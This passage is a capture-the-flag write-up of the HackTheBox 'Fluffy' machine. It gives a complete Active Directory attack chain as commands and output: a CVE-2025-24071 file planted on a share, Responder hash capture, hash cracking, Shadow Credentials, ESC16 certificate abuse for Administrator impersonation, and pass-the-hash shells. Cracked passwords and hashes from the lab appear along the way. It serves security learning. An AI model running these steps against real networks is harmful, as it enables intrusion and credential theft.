|   Check 4 (port 59870/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

From the Nmap results, looks like there are several active directory services running on the server.

Let's try to enumerate the shares in the SMB server using the given credentials:
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Fluffy]
└─$ nxc smb 10.10.11.69 -u 'j.fleischman' -p 'J0elTHEM4n1990!' --shares                   
SMB         10.10.11.69     445    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.69     445    DC01             [+] fluffy.htb\j.fleischman:J0elTHEM4n1990! 
SMB         10.10.11.69     445    DC01             [*] Enumerated shares
SMB         10.10.11.69     445    DC01             Share           Permissions     Remark
SMB         10.10.11.69     445    DC01             -----           -----------     ------
SMB         10.10.11.69     445    DC01             ADMIN$                          Remote Admin
SMB         10.10.11.69     445    DC01             C$                              Default share
SMB         10.10.11.69     445    DC01             IPC$            READ            Remote IPC
SMB         10.10.11.69     445    DC01             IT              READ,WRITE      
SMB         10.10.11.69     445    DC01             NETLOGON        READ            Logon server share 
SMB         10.10.11.69     445    DC01             SYSVOL          READ            Logon server share 
```

Try to access the IT share:
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Fluffy]
└─$ smbclient //10.10.11.69/IT -U 'j.fleischman'%'J0elTHEM4n1990!'
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Sep  9 22:33:15 2025
  ..                                  D        0  Tue Sep  9 22:33:15 2025
  Everything-1.4.1.1026.x64           D        0  Fri Apr 18 23:08:44 2025
  Everything-1.4.1.1026.x64.zip       A  1827464  Fri Apr 18 23:04:05 2025
  KeePass-2.58                        D        0  Fri Apr 18 23:08:38 2025
  KeePass-2.58.zip                    A  3225346  Fri Apr 18 23:03:17 2025
  Upgrade_Notice.pdf                  A   169963  Sat May 17 22:31:07 2025

                5842943 blocks of size 4096. 2236949 blocks available
smb: \>
```

After we are in the SMB IT share, the <code>Upgrade_Notice.pdf</code> file seems to be interesting. Let's retrieve the file and open the file:
```
smb: \> get Upgrade_Notice.pdf 
getting file \Upgrade_Notice.pdf of size 169963 as Upgrade_Notice.pdf (917.0 KiloBytes/sec) (average 917.0 KiloBytes/sec)
```



Look's like the server have some several recent vulnerabilities that we might able to use.


## ⚔️ Exploitation

We found out that we can try to exploit the server using the [CVE-2025-24071](https://nvd.nist.gov/vuln/detail/CVE-2025-24071). Based on the CVE, we are able to retrieve some information via crafted network shares.

I also found some POC that we can try from the [GitHub](https://github.com/Marcejr117/CVE-2025-24071_PoC). First, we must run the <code>PoC.py</code> scripts and set the IP as our attacker IP:
```
┌──(kali㉿kali)-[~/upload/CVE-2025-24071_PoC]
└─$ python3 PoC.py payload 10.10.14.77


[+] File payload.library-ms created successfully.
```

Then, run the <code>Responder.py</code> to retrieve the response:
```
┌──(kali㉿kali)-[~/upload/Responder]
└─$ sudo python3 Responder.py -I tun0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    MQTT server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]
    SNMP server                [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.14.77]
    Responder IPv6             [dead:beef:2::104b]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']
    Don't Respond To MDNS TLD  ['_DOSVC']
    TTL for poisoned response  [default]

[+] Current Session Variables:
    Responder Machine Name     [WIN-NMFW1HDZ42B]
    Responder Domain Name      [0SZA.LOCAL]
    Responder DCE-RPC Port     [47664]

[*] Version: Responder 3.1.7.0
[*] Author: Laurent Gaffie, <lgaffie@secorizon.com>
[*] To sponsor Responder: https://paypal.me/PythonResponder

[+] Listening for events...
```

Next, upload the exploit file into the SMB IT share as we have the write access there:
```
┌──(kali㉿kali)-[~/upload/CVE-2025-24071_PoC]
└─$ smbclient //10.10.11.69/IT -U 'j.fleischman'%'J0elTHEM4n1990!'
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Sep  9 23:10:13 2025
  ..                                  D        0  Tue Sep  9 23:10:13 2025
  Everything-1.4.1.1026.x64           D        0  Fri Apr 18 23:08:44 2025
  Everything-1.4.1.1026.x64.zip       A  1827464  Fri Apr 18 23:04:05 2025
  KeePass-2.58                        D        0  Fri Apr 18 23:08:38 2025
  KeePass-2.58.zip                    A  3225346  Fri Apr 18 23:03:17 2025
  Upgrade_Notice.pdf                  A   169963  Sat May 17 22:31:07 2025

                5842943 blocks of size 4096. 2236359 blocks available
smb: \> put exploit.zip 
putting file exploit.zip as \exploit.zip (0.6 kb/s) (average 0.6 kb/s)
```

We will retrieve the response in our attacker machine:
```
[+] Listening for events...                                                                  

[SMB] NTLMv2-SSP Client   : 10.10.11.69
[SMB] NTLMv2-SSP Username : FLUFFY\p.agila
[SMB] NTLMv2-SSP Hash     : p.agila::FLUFFY:e0a6d459342cbfd5:8678DC765672A3748E769DEA9F34C596:010100000000000000CFF10FA821DC01009F314A5EE6638E0000000002000800300053005A00410001001E00570049004E002D004E004D00460057003100480044005A0034003200420004003400570049004E002D004E004D00460057003100480044005A003400320042002E00300053005A0041002E004C004F00430041004C0003001400300053005A0041002E004C004F00430041004C0005001400300053005A0041002E004C004F00430041004C000700080000CFF10FA821DC0106000400020000000800300030000000000000000100000000200000B67B5EBC69E79BFCE934746494021422C8BC12C60167D4C9781C85B7C186C5A10A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00370037000000000000000000                      
[*] Skipping previously captured hash for FLUFFY\p.agila
[*] Skipping previously captured hash for FLUFFY\p.agila
[*] Skipping previously captured hash for FLUFFY\p.agila
[*] Skipping previously captured hash for FLUFFY\p.agila
[*] Skipping previously captured hash for FLUFFY\p.agila
[*] Skipping previously captured hash for FLUFFY\p.agila
```

Save the output into a file before we can try to crack it:
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Fluffy]
└─$ echo 'p.agila::FLUFFY:e0a6d459342cbfd5:8678DC765672A3748E769DEA9F34C596:010100000000000000CFF10FA821DC01009F314A5EE6638E0000000002000800300053005A00410001001E00570049004E002D004E004D00460057003100480044005A0034003200420004003400570049004E002D004E004D00460057003100480044005A003400320042002E00300053005A0041002E004C004F00430041004C0003001400300053005A0041002E004C004F00430041004C0005001400300053005A0041002E004C004F00430041004C000700080000CFF10FA821DC0106000400020000000800300030000000000000000100000000200000B67B5EBC69E79BFCE934746494021422C8BC12C60167D4C9781C85B7C186C5A10A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00370037000000000000000000' > agilahash
```

Cracking the hash let us retrieves the credentials for the user <code>p.agila</code>:
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Fluffy]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt agilahash                     
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
prometheusx-303  (p.agila)     
1g 0:00:00:01 DONE (2025-09-09 16:41) 0.8264g/s 3733Kp/s 3733Kc/s 3733KC/s prrm30w..programmercomputer
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```

We can try to use **BloodHound** to make the process easier for us to map out the active directory environments. We can collect the data first using:
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Fluffy]
└─$ nxc ldap 10.10.11.69 -u 'p.agila' -p 'prometheusx-303' -d 'fluffy.htb' --dns-server 10.10.11.69 --bloodhound --collection all 
LDAP        10.10.11.69     389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb)
LDAP        10.10.11.69     389    DC01             [+] fluffy.htb\p.agila:prometheusx-303 
LDAP        10.10.11.69     389    DC01             Resolved collection methods: acl, objectprops, trusts, container, localadmin, session, group, dcom, rdp, psremote                                                     
LDAP        10.10.11.69     389    DC01             Done in 00M 04S
LDAP        10.10.11.69     389    DC01             Compressing output into /home/kali/.nxc/logs/DC01_10.10.11.69_2025-09-09_164932_bloodhound.zip
```

In BloodHound, we can start mapping out our attack paths start from the owned user <code>p.agila</code>:



We found out that, the user <code>p.agila</code> is a Service Account Manager which having the <code>GenericAll</code> permissions towards Service Accounts group. Enumerating the Service Accounts' members, we found some interesting user that we might use to connect remotely to the server.



Using the **Cypher pre-built search** tools in BloodHound, we can try to find if there is any users that are **kerberoastable**:



Before we can try to exploit using kerberoast attack, we must make sure the clock skew is not too great with the server. To sync the clock with the server:
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Fluffy]
└─$ date                       
Tue Sep  9 05:20:58 PM +08 2025
                                                                                             
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Fluffy]
└─$ sudo timedatectl set-ntp false 
                                                                                             
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Fluffy]
└─$ sudo ntpdate -s 10.10.11.69   
                                                                                             
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Fluffy]
└─$ date                          
Tue Sep  9 11:55:44 PM +08 2025
```

Now, we can try to get the user SPNs that are kerberoastable with the user <code>p.agila</code>:
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Fluffy]
└─$ python3 /opt/impacket/examples/GetUserSPNs.py fluffy.htb/p.agila:'prometheusx-303' -outputfile kerberoast.txt -dc-ip 10.10.11.69 -request 

Impacket v0.13.0.dev0+20250808.170117.00f43cf7 - Copyright Fortra, LLC and its affiliated companies 

ServicePrincipalName    Name       MemberOf                                       PasswordLastSet             LastLogon                   Delegation 
----------------------  ---------  ---------------------------------------------  --------------------------  --------------------------  ----------
ADCS/ca.fluffy.htb      ca_svc     CN=Service Accounts,CN=Users,DC=fluffy,DC=htb  2025-04-18 00:07:50.136701  2025-09-09 21:28:32.993819             
LDAP/ldap.fluffy.htb    ldap_svc   CN=Service Accounts,CN=Users,DC=fluffy,DC=htb  2025-04-18 00:17:00.599545  <never>                                
WINRM/winrm.fluffy.htb  winrm_svc  CN=Service Accounts,CN=Users,DC=fluffy,DC=htb  2025-05-18 08:51:16.786913  2025-09-09 21:15:54.634442             


[-] CCache file is not found. Skipping...
```

Try to crack the retrieved hashes of the users:
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Fluffy]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt kerberoast.txt                
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:08 DONE (2025-09-09 23:57) 0g/s 1629Kp/s 4889Kc/s 4889KC/s !)(OPPQR..*7¡Vamos!
Session completed. 
```

However, we are not able to retrieve the password here. Let's get back to BloodHound to map out new attack paths. I used the **Pathfinding** tools to make it easy to find the relationship between the user <code>p.agila</code> and user <code>winrm_svc</code>:



We can see here, the user <code>p.agila</code> which is the member of Service Account Managers having the <code>GenericAll</code> permission which having the full access towards the Service Accounts groups. The Service Accounts groups here having the <code>GenericWrite</code> permission which make us able to do the **Shadow Credentials attack** towards user <code>winrm_svc</code>.

So, the plan here is to add the user <code>p.agila</code> to the Service Accounts groups which later we can try to do the Shadow Credentials attack towards the user <code>winrm_svc</code>.

Add the user <code>p.agila</code> to Service Accounts groups:
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Fluffy]
└─$ net rpc group addmem "SERVICE ACCOUNTS" "p.agila" -U fluffy.htb/p.agila%'prometheusx-303' -S 10.10.11.69
```

Then, verify if we had successfully added the user <code>p.agila</code> in the Service Accounts group:
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Fluffy]
└─$ net rpc group members "SERVICE ACCOUNTS" -U fluffy.htb/p.agila%'prometheusx-303' -S 10.10.11.69     
FLUFFY\ca_svc
FLUFFY\ldap_svc
FLUFFY\p.agila
FLUFFY\winrm_svc
```

Before that, make sure to clone the <code>pywhisker</code> repository first:
```
┌──(kali㉿kali)-[~/upload]
└─$ git clone https://github.com/ShutdownRepo/pywhisker.git           
Cloning into 'pywhisker'...
remote: Enumerating objects: 235, done.
remote: Counting objects: 100% (106/106), done.
remote: Compressing objects: 100% (40/40), done.
remote: Total 235 (delta 75), reused 75 (delta 66), pack-reused 129 (from 1)
Receiving objects: 100% (235/235), 2.10 MiB | 9.76 MiB/s, done.
Resolving deltas: 100% (115/115), done.

┌──(kali㉿kali)-[~/upload]
└─$ cd pywhisker/pywhisker
```

Next, we can start with retrieving the <code>.pfx</code> files
```
┌──(kali㉿kali)-[~/upload/pywhisker/pywhisker]
└─$ python3 pywhisker.py -d fluffy.htb -u "p.agila" -p 'prometheusx-303' --target "winrm_svc" --action "add"
[*] Searching for the target account
[*] Target user found: CN=winrm service,CN=Users,DC=fluffy,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: ab3043b8-4673-da17-78aa-11acd0420a88
[*] Updating the msDS-KeyCredentialLink attribute of winrm_svc
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] Converting PEM -> PFX with cryptography: siYGlp0r.pfx
[+] PFX exportiert nach: siYGlp0r.pfx
[i] Passwort für PFX: Qk8irS179S5cjnNeDbhY
[+] Saved PFX (#PKCS12) certificate & key at path: siYGlp0r.pfx
[*] Must be used with password: Qk8irS179S5cjnNeDbhY
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```

Then, using the <code>certipy-ad</code> tools, we can create the cert file for user <code>winrm_svc</code>:
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Fluffy]
└─$ certipy-ad cert -export -pfx siYGlp0r.pfx -password 'Qk8irS179S5cjnNeDbhY' -out winrm_svc.pfx
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Data written to 'winrm_svc.pfx'
```

Next, we can get the hash for the user <code>winrm_svc</code> by:
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Fluffy]
└─$ certipy-ad auth -pfx winrm_svc.pfx -username 'winrm_svc' -domain fluffy.htb -dc-ip 10.10.11.69
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     No identities found in this certificate
[!] Could not find identity in the provided certificate
[*] Using principal: 'winrm_svc@fluffy.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'winrm_svc.ccache'
[*] Wrote credential cache to 'winrm_svc.ccache'
[*] Trying to retrieve NT hash for 'winrm_svc'
[*] Got hash for 'winrm_svc@fluffy.htb': aad3b435b51404eeaad3b435b51404ee:33bd09dcd697600edf6b3a7af4875767
```

Try to remote connect to the server using **evil-winrm**:
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Fluffy]
└─$ evil-winrm -i 10.10.11.69 -u 'winrm_svc' -H '33bd09dcd697600edf6b3a7af4875767'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\winrm_svc\Desktop> ls


    Directory: C:\Users\winrm_svc\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         9/9/2025   4:01 AM             34 user.txt


*Evil-WinRM* PS C:\Users\winrm_svc\Desktop> type user.txt
```

<details>
<summary><b>🏳️user.txt</b></summary>
<b><code>c8060b1a7062493295c2376b785853f9</code></b>
</details><br>


## 💀 Privilege Escalation

With the retrieved hash of user <code>winrm_svc</code>, we can try to map out our next attack paths to get to the user <code>Administrator</code>:



We can see here that the user <code>winrm_svc</code> also having the <code>GenericWrite</code> permission towards the other two service accounts user which are <code>ca_svc</code> and <code>ldap_svc</code>. Try to view what we can do with the other two users:



The user <code>ca_svc</code> looks interesting here, as the user is the member of the Cert Publishers groups which we might able to do the **Active Directory Certificate Services attacks**. Try to retrieve the hash for the user <code>ca_svc</code> using the same methods as before which is the **Shadow Credentials attack** then we can try to find is the CA services is vulnerable or not using the command.
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Fluffy]
└─$ certipy-ad find -username 'ca_svc' -hashes ':ca0f4f9e9eb8a092addf53bb03fc98c8' -dc-ip 10.10.11.69 -vulnerable
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Finding issuance policies
[*] Found 14 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'fluffy-DC01-CA' via RRP
[*] Successfully retrieved CA configuration for 'fluffy-DC01-CA'
[*] Checking web enrollment for CA 'fluffy-DC01-CA' @ 'DC01.fluffy.htb'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Saving text output to '20250910011108_Certipy.txt'
[*] Wrote text output to '20250910011108_Certipy.txt'
[*] Saving JSON output to '20250910011108_Certipy.json'
[*] Wrote JSON output to '20250910011108_Certipy.json'
```

We found out that the CA services is vulnerable to the **"ESC16"**:
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Fluffy]
└─$ cat 20250910011108_Certipy.txt 
Certificate Authorities
  0
    CA Name                             : fluffy-DC01-CA
    DNS Name                            : DC01.fluffy.htb
    Certificate Subject                 : CN=fluffy-DC01-CA, DC=fluffy, DC=htb
    Certificate Serial Number           : 3670C4A715B864BB497F7CD72119B6F5
    Certificate Validity Start          : 2025-04-17 16:00:16+00:00
    Certificate Validity End            : 3024-04-17 16:11:16+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Disabled Extensions                 : 1.3.6.1.4.1.311.25.2
    Permissions
      Owner                             : FLUFFY.HTB\Administrators
      Access Rights
        ManageCa                        : FLUFFY.HTB\Domain Admins
                                          FLUFFY.HTB\Enterprise Admins
                                          FLUFFY.HTB\Administrators
        ManageCertificates              : FLUFFY.HTB\Domain Admins
                                          FLUFFY.HTB\Enterprise Admins
                                          FLUFFY.HTB\Administrators
        Enroll                          : FLUFFY.HTB\Cert Publishers
    [!] Vulnerabilities
      ESC16                             : Security Extension is disabled.
    [*] Remarks
      ESC16                             : Other prerequisites may be required for this to be exploitable. See the wiki for more details.
Certificate Templates                   : [!] Could not find any certificate templates
```

From this [GitHub](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc16-security-extension-disabled-on-ca-globally), we can try to change the user <code>ca_svc</code> UPN to impersonate the user <code>Administrator</code>:
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Fluffy]
└─$ certipy-ad account -u 'ca_svc@fluffy.htb' -hashes ':ca0f4f9e9eb8a092addf53bb03fc98c8' -dc-ip '10.10.11.69' -upn 'administrator@fluffy.htb' -user 'ca_svc' update
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_svc':
    userPrincipalName                   : administrator@fluffy.htb
[*] Successfully updated 'ca_svc'
```

Then, we need to request the certificate for the user <code>ca_svc</code> which impersonates as Administrator:
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Fluffy]
└─$ certipy-ad req -u 'ca_svc@fluffy.htb' -hashes ':ca0f4f9e9eb8a092addf53bb03fc98c8' -dc-ip '10.10.11.69' -ca fluffy-DC01-CA -target 'DC01.fluffy.htb' -upn 'administrator@fluffy.htb'
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 19
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@fluffy.htb'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```

Before we can retrieve the user <code>administrator</code> hash, we must make sure to revert the user <code>ca_svc</code> UPN to <code>ca_svc@fluffy.htb</code>:
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Fluffy]
└─$ certipy-ad account -u 'ca_svc@fluffy.htb' -hashes ':ca0f4f9e9eb8a092addf53bb03fc98c8' -dc-ip '10.10.11.69' -upn 'ca_svc@fluffy.htb' -user 'ca_svc' update
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_svc':
    userPrincipalName                   : ca_svc@fluffy.htb
[*] Successfully updated 'ca_svc'
``` 

Then, retrieve the administrator hash:
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Fluffy]
└─$ certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.69
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator@fluffy.htb'
[*] Using principal: 'administrator@fluffy.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@fluffy.htb': aad3b435b51404eeaad3b435b51404ee:8da83a3fa618b6e3a00e93f676c92a6e
```

Now, remote connect to the server to get the root flag:
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Fluffy]
└─$ evil-winrm -i 10.10.11.69 -u 'Administrator' -H '8da83a3fa618b6e3a00e93f676c92a6e'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         9/9/2025   4:01 AM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
```

<details>
<summary><b>🏳️root.txt</b></summary>
<b><code>2e95e7620d0bf90f66a5181d62e7dbac</code></b>
</details><br>


## 📌 Final Thoughts

Thank you for reading my writeups. Based on this machine, I learned how to enumerate the Active Directory networks using the NetExec tools and exploiting the ADCS attack.


## 📚 References:

- NetExec - https://www.netexec.wiki/

- NIST: CVE-2025-24071 - https://nvd.nist.gov/vuln/detail/CVE-2025-24071 

- CVE-2025-24071 / CVE-2025-24054 PoC - https://github.com/Marcejr117/CVE-2025-24071_PoC

- Responder/MultiRelay - https://github.com/lgandx/Responder

- Abusing AD-DACL : Generic ALL Permissions - https://www.hackingarticles.in/genericall-active-directory-abuse/

- Abusing AD-DACL: GenericWrite - https://www.hackingarticles.in/genericwrite-active-directory-abuse/

- DACL misconfiguration: are your data vulnerable to a Shadow Credentials cyberattack - https://i-tracing.com/blog/dacl-shadow-credentials/#the-dacl-shadow-credential-approach

- pyWhisker - https://github.com/ShutdownRepo/pywhisker

- ESC16: Security Extension Disabled on CA (Globally) - https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc16-security-extension-disabled-on-ca-globally
